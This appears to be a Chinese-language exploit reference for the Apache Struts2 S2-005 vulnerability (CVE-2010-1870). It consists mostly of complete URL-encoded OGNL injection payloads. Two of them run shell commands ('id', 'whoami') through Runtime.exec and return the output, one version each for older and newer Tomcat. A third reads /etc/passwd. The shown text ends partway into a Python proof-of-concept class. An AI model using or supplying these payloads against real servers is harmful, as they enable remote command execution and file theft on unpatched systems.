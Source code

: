 #### 低版本Tomcat执行命令

```java
('%5Cu0023context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5Cu003dfalse')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('%5Cu0023mycmd%5Cu003d%5C'id%5C'')(bla)(bla)&('%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime().exec(%5Cu0023mycmd)')(bla)(bla)&(A)(('%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream(%5Cu0023myret.getInputStream())')(bla))&(B)(('%5Cu0023myres%5Cu003dnew%5C40byte%5B51020%5D')(bla))&(C)(('%5Cu0023mydat.readFully(%5Cu0023myres)')(bla))&(D)(('%5Cu0023mystr%5Cu003dnew%5C40java.lang.String(%5Cu0023myres)')(bla))&('%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('%5Cu0023myout.getWriter().println(%5Cu0023mystr)')(bla))
```

#### 高版本Tomcat执行命令

```java
?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27whoami%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

#### 高版本Tomcat读取文件

```java
?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27cat%20/etc/passwd%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

### POC

```python
#!/usr/bin/env python3

'''
name: Struts2 S2-005漏洞，又名CVE-2010-1870漏洞
description: Struts2 S2-005漏洞可执行任意命令
'''

import re
import urllib
import random
import string
import requests

class S2_005_BaseVerify:
    def __init__(self, url):
        self.url = url 
        self.headers = {
```